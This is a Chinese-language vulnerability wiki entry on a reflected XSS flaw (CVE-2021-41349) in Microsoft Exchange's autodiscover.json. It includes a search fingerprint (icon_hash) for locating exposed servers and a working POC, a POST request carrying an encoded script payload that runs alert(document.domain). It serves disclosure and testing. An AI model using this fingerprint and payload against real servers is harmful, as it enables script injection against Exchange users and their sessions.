 # Microsoft Exchange autodiscover.json 反射型XSS CVE-2021-41349

## 漏洞描述

Microsoft Exchange  autodiscover.json 文件中存在反射型XSS，由于其中过滤不足而导致

## 漏洞影响

<a-checkbox checked>Microsoft Exchange</a-checkbox></br>

## 网络测绘

<a-checkbox checked>icon_hash="1768726119"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1637288762813-e6dfc1ae-30b5-4aae-bd47-f21c11fe820d.png)

验证POC

```python
POST /autodiscover/autodiscover.json

%3Cscript%3Ealert%28document.domain%29%3B+a=%22%3C%2Fscript%3E&x=1
```

![img](/assets/PeiQi-Wiki/img/1637288842810-502b9dc4-ce91-4217-8ec2-05cc530cac38.png)